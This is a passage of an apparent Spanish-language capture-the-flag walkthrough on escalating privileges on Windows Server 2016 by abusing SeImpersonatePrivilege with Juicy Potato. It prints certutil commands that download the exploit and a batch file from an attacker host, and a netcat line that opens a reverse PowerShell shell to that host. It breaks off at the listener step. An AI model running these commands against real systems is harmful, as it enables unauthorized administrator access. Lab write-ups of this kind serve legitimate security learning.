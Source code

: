 ```powershell
whoami /priv
```

```plaintext
PRIVILEGES INFORMATION
----------------------


Privilege Name          Description                               State  
======================= ========================================= =======
SeChangeNotifyPrivilege Bypass traverse checking                  Enabled
SeImpersonatePrivilege  Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege Create global objects                     Enabled
```

Podremos ver que tenemos un privilegio bastante interesante, este privilegio es el SeImpersonatePrivilege. Este privilegio nos permite ejecutar comandos como el usuario administrador mediante [Juicy-Potato](https://github.com/ohpe/juicy-potato). En este caso estamos bajo un servidor con la versión Windows Server 2016 Standard, la cual es vulnerable a este exploit.

<br>

### Juicy Potato
Para abusar de este privilegio lo primero que haremos será descargar el binario de [Juicy-Potato](https://github.com/ohpe/juicy-potato). Después, lo transferiremos a la máquina víctima de la misma forma que hemos hecho antes:

```powershell
certutil.exe -f -split -urlcache http://10.10.14.254/JuicyPotato.exe jp.exe
```

```plaintext
****  Online  ****
  000000  ...
  054e00
CertUtil: -URLCache command completed successfully.
```

Una vez transferido el binario de [Juicy-Potato](https://github.com/ohpe/juicy-potato), procederemos a crear el script que va a ejecutar este. Este script será un pequeño bat que invocará el binario de [Netcat](http://netcat.sourceforge.net/) y nos devolverá una reverse powershell como administrador:

```powershell
File: shell.bat

START C:\inetpub\wwwroot\wordpress\wp-content\themes\twentynineteen\nc.exe -e powershell.exe 10.10.14.254 1234
```

Transferiremos este script a la máquina víctima:

```powershell
certutil.exe -f -split -urlcache http://10.10.14.254/shell.bat
```

Por último, en nuestra máquina nos pondremos en escucha con [Netcat](http://netcat.sourceforge.net/) por el puerto 1234, para ello:

